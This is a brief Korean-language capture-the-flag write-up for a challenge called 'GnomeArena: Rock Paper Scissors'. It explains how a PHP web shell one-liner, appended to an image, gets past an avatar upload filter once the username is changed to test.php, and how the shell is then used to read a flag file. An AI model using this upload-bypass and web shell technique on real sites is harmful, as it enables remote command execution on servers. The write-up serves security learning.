





# GnomeArena: Rock Paper Scissors

가위 바위 보 게임이 있다.

script 부분을 봣지만 여러번 승리한다고 바뀌는건 없는거 같다.

settings 부분에는 이름을 바꾸는 기능과 프로필 사진을 바꾸는 기능이 존재한다.

그림파일을 업로드하는 기능에는 그림파일만 올라가게 되어있다.

그림파일 뒤에 <?php system($_GET['cmd']); ?>를 붙여서 명령어를 실행할 수 있게만들어 업로드한다.

그림파일 이름은 현재 나의 이름으로 avatars 폴더 밑에 업로드 된다. 때문에 이름을 test.php로 변경한뒤 그림파일을 업로드한다.

test.php로 이동하여 cmd 인자를 입력해준다. 현재 디렉토리에는 flag 같은 것이 안보인다. / 디렉토리를 살펴보니 flag 파일이 보인다.

cat 명령으로 flag 파일을 읽는다. 
